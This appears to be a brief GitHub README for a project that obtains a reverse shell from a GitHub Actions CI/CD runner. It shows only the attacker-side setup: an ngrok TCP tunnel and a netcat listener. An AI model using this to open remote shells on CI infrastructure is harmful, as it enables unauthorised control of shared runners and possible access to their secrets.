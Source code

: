 # Github_box
Get a reverse shell from the Github action CI/CD (Machine with IP of Microsoft Azure) 

## Ngrok and nc setup
~~~
ngrok tcp <nc listening port>
nc -nvlp <listening port>
~~~
